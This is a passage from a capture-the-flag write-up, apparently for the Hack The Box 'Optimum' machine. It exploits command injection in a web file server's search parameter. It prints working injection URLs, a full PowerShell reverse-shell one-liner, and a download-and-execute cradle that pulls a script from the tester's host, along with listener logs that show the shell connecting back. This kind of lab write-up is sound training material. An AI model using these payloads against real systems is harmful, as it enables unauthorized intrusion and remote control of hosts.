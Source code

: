 
I can also run it with PowerShell:

    
    
    http://10.10.10.8/?search=%00{.+exec|powershell.exe+/c+ping+-n+1+10.10.14.10.}
    

### Shell

Given the age of this host and the easy rating, I likely don’t have to worry
about Defender / AMSI, so I’ll grab a PowerShell script from
[Nishang](https://github.com/samratashok/nishang). I’ll copy the `Invoke-
PowerShellTcpOneLine.ps1`, cut the comments, and update the IP and port:

    
    
    $client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    

I’ll save a copy of that as `rev.ps1` (just to make an easier url I’m about to
request). Then I’ll start a Python web server, and visit:

    
    
    http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1').}
    

That triggers Optimum to reach out and download `rev.ps1` (interestingly again
four times), which shows up at the web server:

    
    
    oxdf@parrot$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
    10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
    10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
    10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
    

When the file is returned, it is executed by `IEX`, short for `Invoke-
Expression`, and the shell connects back to my listening `nc` (for some reason
on this shell the prompt only shows up after the first command):

    
    
    oxdf@parrot$ sudo rlwrap nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49179
    whoami
    optimum\kostas
    PS C:\Users\kostas\Desktop>
    

There’s a small typo in the flag name, but I can grab it:
